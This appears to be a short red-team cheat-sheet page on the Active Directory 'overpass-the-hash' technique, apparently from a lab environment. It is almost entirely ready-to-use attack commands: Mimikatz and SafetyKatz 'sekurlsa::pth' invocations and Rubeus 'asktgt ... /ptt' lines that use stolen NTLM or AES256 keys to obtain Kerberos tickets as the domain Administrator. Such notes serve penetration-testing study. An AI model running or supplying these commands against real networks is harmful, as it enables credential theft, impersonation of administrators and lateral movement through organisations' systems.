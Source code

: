 # Over Pass The Hash

Over pass the hash (OPTH) is used between domain joined and not passing directly the NTLM hash to authenticate, instead asking for TGT.

<pre class="language-powershell" data-overflow="wrap" data-full-width="false"><code class="lang-powershell"><strong>Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:&#x3C;aes256key> /run:powershell.exe"'
</strong>
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:&#x3C;aes256keys>  /run:cmd.exe" "exit"

Rubeus.exe asktgt /user:administrator /rc4:&#x3C;ntlmhash> /ptt

Rubeus.exe asktgt /user:administrator /aes256:&#x3C;aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
</code></pre>
